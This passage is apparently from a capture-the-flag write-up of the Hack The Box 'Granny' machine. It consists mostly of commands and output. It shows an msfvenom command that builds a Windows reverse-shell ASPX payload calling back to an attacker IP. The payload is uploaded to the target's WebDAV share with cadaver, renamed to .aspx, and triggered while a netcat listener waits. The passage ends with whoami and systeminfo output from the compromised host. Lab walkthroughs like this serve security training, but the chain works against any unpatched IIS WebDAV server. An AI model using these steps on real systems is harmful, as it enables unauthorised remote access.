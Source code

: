 
## Method 2 : Msfvenom+cadaver

````
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=555 --platform windows -a x86 -e generic/none -f aspx -o go.txt
cadaver 10.10.10.15
ls
put go.txt
move go.txt go.aspx
ls
````
````
nc -nlvp 555
http://10.10.10.15/go.aspx
````

## Get nc

```
whoami
nt authority\network service

systeminfo
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 1 Hours, 37 Minutes, 42 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 777 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,316 MB
Page File: In Use:         154 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
